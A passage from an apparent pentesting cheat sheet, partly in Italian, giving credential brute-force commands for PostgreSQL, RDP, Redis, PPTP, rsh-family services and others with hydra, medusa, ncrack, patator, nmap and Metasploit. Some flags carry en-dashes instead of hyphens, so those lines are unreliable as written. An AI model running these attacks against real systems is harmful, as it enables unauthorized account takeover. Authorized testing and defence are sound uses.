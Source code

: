 ```bash
# SSL
legba pop3 --username admin@example.com --password wordlists/passwords.txt --target localhost:995 --pop3-ssl
```
### PostgreSQL
```bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
legba pgsql --username admin --password wordlists/passwords.txt --target localhost:5432
```
### PPTP

Puoi scaricare il pacchetto `.deb` per installare da [https://http.kali.org/pool/main/t/thc-pptp-bruter/](https://http.kali.org/pool/main/t/thc-pptp-bruter/)
```bash
sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```
### RDP
```bash
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
legba rdp --target localhost:3389 --username admin --password data/passwords.txt [--rdp-domain <RDP_DOMAIN>] [--rdp-ntlm] [--rdp-admin-mode] [--rdp-auto-logon]
```
### Redis
```bash
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt redis://<IP>:<PORT> # 6379 is the default
legba redis --target localhost:6379 --username admin --password data/passwords.txt [--redis-ssl]
```
### Rexec
```bash
hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
```
### Rlogin
```bash
hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V
```
### Rsh
```bash
hydra -L <Username_list> rsh://<Victim_IP> -v -V
```
### Rsync
```bash
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```
### RTSP
```bash
hydra -l root -P passwords.txt <IP> rtsp
```
### SFTP